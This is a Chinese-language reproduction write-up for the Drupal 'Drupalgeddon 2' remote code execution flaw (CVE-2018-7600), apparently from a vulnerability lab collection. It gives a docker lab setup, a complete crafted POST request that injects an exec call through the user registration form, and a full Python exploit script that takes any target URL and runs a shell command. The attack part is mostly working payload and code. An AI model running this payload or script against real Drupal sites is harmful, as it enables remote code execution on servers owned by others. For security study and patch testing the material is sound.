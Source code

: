 （CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞
=======================================================

一、漏洞简介
------------

Drupal是Drupal社区所维护的一套使用PHP语言开发的免费，开源的内容管理系统。版本受到影响：Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

二、漏洞影响
------------

Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

三、复现过程
------------

### 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

    docker-compose up -d

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7600](https://github.com/ianxtianxt/CVE-2018-7600)，我们向安装完成的drupal发送如下数据包：

    POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 103

    form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id

成功执行代码，这个代码最终执行了id命令：

![](./resource/(CVE-2018-7600)DrupalDrupalgeddon2远程代码执行漏洞/media/rId27.png)

### **exploit.py**

    #!/usr/bin/env python3
    import sys
    import requests

    print ('################################################################')
    print ('# Proof-Of-Concept for CVE-2018-7600')
    print ('# by Vitalii Rudnykh')
    print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
    print ('# https://github.com/a2u/CVE-2018-7600')
    print ('################################################################')
    print ('Provided only for educational or information purposes\n')

    target = input('Enter target url (example: https://domain.ltd/): ')

    # Add proxy support (eg. BURP to analyze HTTP(s) traffic)
    # set verify = False if your proxy certificate is self signed
    # remember to set proxies both for http and https
    # 
    # example:
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    # verify = False
    proxies = {}
    verify = True

    url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
    payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

    r = requests.post(url, proxies=proxies, data=payload, verify=verify)
    check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
    if check.status_code != 200:
      sys.exit("Not exploitable")
    print ('\nCheck: '+target+'hello.txt')

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2018-7600/
